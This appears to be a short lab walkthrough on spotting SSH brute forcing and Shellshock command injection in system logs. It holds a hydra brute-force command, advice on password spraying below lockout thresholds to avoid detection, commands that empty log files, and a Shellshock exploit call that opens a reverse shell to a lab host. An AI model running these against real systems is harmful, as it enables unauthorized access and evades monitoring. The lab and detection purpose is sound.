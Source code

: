 ## Password Brute Forcing

Empty a log file

```bash
sudo truncate /var/log/auth.log --size 0
```

```bash
hydra -l alice -P ./dict_bf.txt  192.168.51.12 -t 1 ssh
```

```bash
sudo cat /var/log/auth.log | grep "sshd\["
```

The `MaxAuthTries` parameter from the SSH config file matches the total number of failed authentication attempts, which then forces the current session to disconnect.

A threshold value has been reached.

**Disconnecting authenticating user alice 192.168.51.50 port 55762: Too many authentication failures [preauth]**

This threshold value could potentially be employed to trigger either firewall rules or `fail2ban` to enact a lockout period for the targeted accounts.

=> Use this warning message as an indicator for triggering account lockouts.

Upgrade the standard brute forcing attack to a password spraying attack by running the attack with a password dictionary sized just below the lockout threshold against every username within a company.

=> not only allow the attacker to stay under the radar, but also increase the chances of guessing the correct password across multiple accounts.

Password spraying is often more effective than expected as password reuse among multiple accounts is not that uncommon.

hydra's `-u` option, allows us to loop first between users as opposed to passwords.

## Command Injection

```bash
sudo truncate /var/log/apache2/*.log --size 0
```

```bash
cat /var/log/apache2/access.log
```

**Shellshock** allows an attacker to execute system commands via an unintended processing of environment variables.

Showcase a CGI-based web server as a compromised vector, which is already preconfigured on the Apache server running, along with the vulnerable Bash version (4.3).

```bash
./shellshock.py payload=reverse rhost=192.168.51.12 lhost=192.168.51.50 lport=4444
```
